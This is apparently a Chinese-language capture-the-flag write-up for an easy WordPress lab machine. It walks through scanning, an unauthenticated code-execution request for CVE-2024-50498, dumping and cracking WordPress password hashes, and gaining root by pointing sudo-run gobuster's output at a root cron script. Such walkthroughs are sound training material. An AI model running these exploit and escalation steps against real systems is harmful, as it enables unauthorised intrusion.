




## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 192.168.56.151 -sV -A                                                                                                                              

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u4 (protocol 2.0)
| ssh-hostkey: 
|   2048 c2:91:d9:a5:f7:a3:98:1f:c1:4a:70:28:aa:ba:a4:10 (RSA)
|   256 3e:1f:c9:eb:c0:6f:24:06:fc:52:5f:2f:1b:35:33:ec (ECDSA)
|_  256 ec:64:87:04:9a:4b:32:fe:2d:1f:9a:b0:81:d3:7c:cf (ED25519)
80/tcp open  http    nginx 1.14.2
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: nginx/1.14.2
|_http-generator: WordPress 6.7.1
|_http-title: bammmmuwe
```

直接就扫到了**wordpress**目录

## Nuclei

```
[root@kali] /home/kali  
❯ nuclei -u http://192.168.56.151          

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.3.9

                projectdiscovery.io

[INF] Current nuclei version: v3.3.9 (outdated)
[INF] Current nuclei-templates version: v10.1.7 (latest)
[WRN] Scan results upload to cloud is disabled.
[INF] New templates added in latest release: 64
[INF] Templates loaded for current scan: 7880
[INF] Executing 7687 signed templates from projectdiscovery/nuclei-templates
[WRN] Loading 193 unsigned templates for scan. Use with caution.
[INF] Targets loaded for current scan: 1
[INF] Templates clustered: 1718 (Reduced 1615 Requests)
[INF] Using Interactsh Server: oast.site
[CVE-2024-50498] [http] [critical] http://192.168.56.151/index.php?rest_route=/wqc/v1/query
```

## Own www-data

尝试复现这个**CVE**：[RandomRobbieBF/CVE-2024-50498: WP Query Console <= 1.0 - Unauthenticated Remote Code Execution](https://github.com/RandomRobbieBF/CVE-2024-50498)

```
POST /wp-json/wqc/v1/query HTTP/1.1
Host: 192.168.56.151
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/json
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 45

{"queryArgs":"phpinfo();","queryType":"post"}
```

查看**disable\_functions**，可以使用**shell\_exec**



## Own welcome

根据**wp-config.php**里的凭证，进入数据库

```
www-data@listen:~/html/wordpress$ mysql -ull104567 -pthehandsomeguy -e 'use wordpress;select * from wp_users;' -E
*************************** 1. row ***************************
                 ID: 1
         user_login: ta0
          user_pass: $P$BDDc71nM67DbOVN/U50WFGII6EF6.r.
      user_nicename: ta0
         user_email: 2814928906@qq.com
           user_url: http://192.168.31.181
    user_registered: 2025-01-08 03:10:43
user_activation_key: 
        user_status: 0
       display_name: ta0
*************************** 2. row ***************************
                 ID: 2
         user_login: welcome
          user_pass: $P$BtP9ZghJTwDfSn1gKKc.k3mq4Vo.Ko/
      user_nicename: welcome
         user_email: 127.0.0.1@qq.com
           user_url: 
    user_registered: 2025-01-08 04:29:28
user_activation_key: 1736310568:$P$B2YbhlDVF1XWIurbL11Pfoasb./0tD.
        user_status: 0
       display_name: welcome
```

使用**john**爆破

```
[root@kali] /home/kali/temp  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt                                                                                               ⏎
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
104567           (?)     
1g 0:00:00:22 DONE (2025-04-17 20:30) 0.04484g/s 33182p/s 33182c/s 33182C/s 10801..103645
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed. 
```

## Root

```
$ sudo -l
Matching Defaults entries for welcome on listen:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on listen:
    (ALL) NOPASSWD: /usr/bin/gobuster
```

可以使用**\-v**参数输出详细



可惜的是我们无法直接读取到**/root/root.txt**以及**ssh**密钥等

查看定时任务呢？发现会执行一个脚本



因此可以尝试来进行覆盖文件

首先需要在**kali**的**/tmp**里生成一个**aaa**文件

```
[root@kali] /tmp  
❯ touch aaa   

[root@kali] /  
❯ python -m http.server 80
```

写入一个字典，查看回显

```
welcome@listen:~$ cat poc 
tmp/aaa
welcome@listen:~$ sudo /usr/bin/gobuster -u http://192.168.55.4/ -w ./poc  -q -n 
/tmp/aaa
```

再将输出定向到**/opt/.test.sh**，注意给**aaa**执行权限

```
welcome@listen:~$ chmod +x /tmp/aaa 
welcome@listen:~$ sudo /usr/bin/gobuster -u http://192.168.55.4/ -w ./poc  -q -n -o /opt/.test.sh 
/tmp/aaa
```



## Summary

`User`：通过**CVE**拿到数据库密码**hash**进行爆破

`Root`：通过日志输出修改定时任务的内容
